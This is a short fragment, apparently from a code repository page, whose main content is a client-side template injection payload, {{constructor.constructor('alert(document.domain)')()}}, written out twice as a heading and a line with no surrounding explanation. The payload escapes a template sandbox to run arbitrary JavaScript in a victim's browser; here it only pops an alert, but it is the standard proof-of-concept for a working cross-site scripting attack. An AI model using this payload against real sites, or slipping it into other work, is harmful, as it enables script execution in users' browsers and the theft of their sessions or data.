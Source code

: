 # {{constructor.constructor('alert(document.domain)')()}}
{{constructor.constructor('alert(document.domain)')()}}
